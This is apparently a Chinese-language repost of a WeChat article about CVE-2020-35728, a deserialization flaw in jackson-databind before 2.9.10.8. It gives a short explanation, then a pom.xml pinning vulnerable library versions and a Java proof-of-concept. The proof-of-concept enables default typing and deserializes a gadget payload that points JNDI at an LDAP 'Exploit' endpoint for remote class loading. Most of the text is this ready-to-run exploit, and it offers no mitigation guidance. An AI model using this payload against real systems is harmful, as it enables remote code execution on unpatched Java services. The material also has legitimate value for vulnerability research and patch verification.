 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/yw9oIg0OkMRBecKw_ytK-Q)

        FFasterXML/jackson-databind 是一个用于 JSON 和对象转换的 Java 第三方库，可将 Java 对象转换成 json 对象和 xml 文档，同样也可将 json 对象转换成 Java 对象。

        2.9.10.8 之前的 FasterXML jackson-databind 2.x 对序列化小工具和打字之间的交互处理不当，与 com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool（也就是 org.glassfish.web/javax.servlet.jsp.jstl 中的嵌入式 Xalan）有关。

        此次漏洞中攻击者可利用 xbean-reflect 的利用链触发 JNDI 远程类加载从而达到远程代码执行。

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>com.jacksonTest</groupId>
    <artifactId>jacksonTest</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.10.7</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.glassfish.web/jakarta.servlet.jsp.jstl -->
        <dependency>
            <groupId>org.glassfish.web</groupId>
            <artifactId>jakarta.servlet.jsp.jstl</artifactId>
            <version>2.0.0</version>
        </dependency>


        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-nop</artifactId>
            <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>1.1</version>
        </dependency>
    </dependencies>
</project>
```

poc.java

```
import com.fasterxml.jackson.databind.ObjectMapper;

public class POC {
    public static void main(String[] args) throws Exception {
        String payload = "[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1088/Exploit\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```

参考文献：

https://github.com/Al1ex/CVE-2020-35728
